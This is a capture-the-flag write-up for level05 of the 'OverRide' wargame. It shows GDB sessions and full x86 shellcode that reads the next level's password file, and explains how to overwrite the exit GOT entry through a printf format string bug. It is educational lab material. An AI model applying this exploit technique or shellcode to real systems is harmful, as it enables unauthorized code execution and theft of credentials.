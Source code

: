 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 
Level05 requires a string format and GOT exploit. 

# Explanation

The code reads the standard input, and if the character is an uppercase letter, it lowers it:
```
level05@OverRide:~$ ./level05
ABCDEFGHIJKLMNOPQRSTUVWXYZ
abcdefghijklmnopqrstuvwxyz
```

We notice a few things:
1. The buffer has a size of 100, but `fgets()` only reads 100 bytes too (safe)
2. `printf()` prints a buffer we have control on, so we can perform format string exploits
3. There are no returns but an `exit()` call at the end of the main

We start GDB and set a few breakpoints at interesting points of our code:
```
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) b fgets
Breakpoint 2 at 0x8048350
(gdb) b printf
Breakpoint 3 at 0x8048340
```

We can pass 100 "A" as an input, to get:
```
Breakpoint 2, 0xf7e90ba0 in fgets () from /lib32/libc.so.6
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 3, 0xf7e78480 in printf () from /lib32/libc.so.6
(gdb) x/20x $esp
0xffffd64c:	0x0804850c	0xffffd678	0x00000064	0xf7fcfac0
0xffffd65c:	0xf7ec3af9	0xffffd69f	0xffffd69e	0x00000000
0xffffd66c:	0xffffffff	0xffffd724	0x00000000	0x61616161
0xffffd67c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd68c:	0x61616161	0x61616161	0x61616161	0x61616161
(gdb)
```
We can see that `0xffffd67c` is the address at which we start writing in the buffer.

Also, we can see that the return address of the `printf()` call.
```
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
```
`0x0804850c` is found at `0xffffd64c`.

Let's start to discover a little more of the `printf()` mechanisms.
```
level05@OverRide:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAA" + "%p " * 10' | ./level05
aaaaaaaaaaaaaaaaaaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be (nil) 0xffffffff 0xffffd744 0xf7fdb000 0x61616161
```
As we can see, the 10th argument is the start of the buffer.

What we want to do is simple.
First, reuse the shellcode from level04, but change the flag to open from `level05/.pass` to `level06/.pass`:
Shellcode:
```
\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x05\x89\xe3\xb1\x02\xb2\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe1\xb2\x29\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x29\xcd\x80\xb0\x01\xcd\x80
```
Second, we want to get the address of it using the same program used in the previous level, when using the command `env -i`.
```
level05@OverRide:~$ env -i SHELLCODE=$(python ~/pyshell.py) /tmp/main
0xffffdf8a
```
Where `pyshell.py` prints the shellcode.
The address of the environment variable SHELLCODE will thus be `0xffffdf8a`.

Third, we want to make a Python script (see `script.py`) that will write the address of our environment variable inside of the `exit` entry in the GOT.
To do that, open GDB, disassemble main, and disassemble the address at which `exit` is:
```
(gdb) disass main
...
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disass 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```
Currently, the address sotred in the GOT entry is the address of the `push` instruction in the `exit` trampoline function. It pushes 0x18 on the stack, and then calls `_dl_runtine_resolve`, which is a function that finds `exit` in `libc`, writes its address in its GOT entry and executes the function.

However, we might be able to change the value stored in the GOT by the one of our shellcode.
Let's do that!

Because the address of our environment is quite big, thus we will write using two `%hn`.
The first write will make us write 57226 characters for `0xdf8a`, and the second 65535 characters for `0xffff`. The first thing written will have place 10 on the stack and the second place 11, so we can use the `%11$` format for `printf()` to specifies these arguments. 

Then, we simply call the binary with `env -i` and pass it our padded input:
```
level05@OverRide:~$ cat input | env -i SHELLCODE=$(python ~/pyshell.py) ./level05
aaaabbbb
...
80497e2ah4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
But, that password is more lengthy than the others.
Maybe there is something weird about it.

If we look at `strace`, we can see a write before our printing of the password: remove what's been written and you get yourself the flag.
```
level05@OverRide:~$ cat input | env -i SHELLCODE=$(python ~/pyshell.py) strace ./level05
execve("./level05", ["./level05"], [/* 1 var */]) = 0
[ Process PID=3351 runs in 32 bit mode. ]
...
write(1, "                                "..., 1024                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        80497e2a) = 1024
open("////home/users/level06//.pass", O_RDWR) = -1 EACCES (Permission denied)
syscall_4294967043(0xfffffff3, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
syscall_4294967044(0xffffff01, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
syscall_4294967041(0xffffff01, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
--- SIGSEGV (Segmentation fault) @ 0 (0) ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
